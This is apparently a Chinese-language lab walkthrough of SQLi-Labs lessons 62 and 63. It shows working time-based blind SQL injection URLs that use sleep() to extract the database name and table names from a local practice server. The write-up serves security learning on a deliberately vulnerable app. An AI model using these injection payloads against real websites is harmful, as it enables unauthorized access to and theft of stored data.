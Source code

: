 没有回显

* 查看能不能报错注入

![image](https://user-images.githubusercontent.com/76896357/115132493-68629700-a033-11eb-95b3-350f0e8a8c5a.png)

好家伙，报错也不行

* bool盲注也没有区分，

![image](https://user-images.githubusercontent.com/76896357/115132509-8fb96400-a033-11eb-964e-6fa41f9cffc4.png)


*没办法，，让他睡觉吧

* 延时注入
```
http://192.168.220.12/sqli/Less-62/?id=1%27)%20and%20length(database())%3E5%20and%20if(1=1,sleep(2),1)%20--+
```

![image](https://user-images.githubusercontent.com/76896357/115132538-c7c0a700-a033-11eb-9798-d2bf7616c211.png)

那么就开是愉快的爆破吧

* 查库
```
http://192.168.220.12/sqli/Less-62/?id=1%27)%20and%20substr(database(),1,1)=%27c%27%20and%20if(1=1,sleep(2),1)%20--+//就挑时间长的
```

![image](https://user-images.githubusercontent.com/76896357/115132893-b6c56500-a036-11eb-9f32-31ef57e00709.png)

* 查表

```
192.168.220.12/sqli/Less-62/?id=1') and substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='c' and if(1=1,sleep(2),1) --+
```

![image](https://user-images.githubusercontent.com/76896357/115133250-5683f280-a039-11eb-8f8f-c3d803a06d32.png)

由于次数的限制只能报出一部分，多试几次吧

。。。

## 63. ''挑战

闭合方式是''

直接延时吧

```
http://192.168.220.12/sqli/Less-63/index.php?id=1%27%20and%20substr(database(),1,1)=%27c%27%20and%20if(1=1,sleep(3),1)%20--+
```
![image](https://user-images.githubusercontent.com/76896357/115133299-bbd7e380-a039-11eb-8119-0ca9b770bdc2.png)
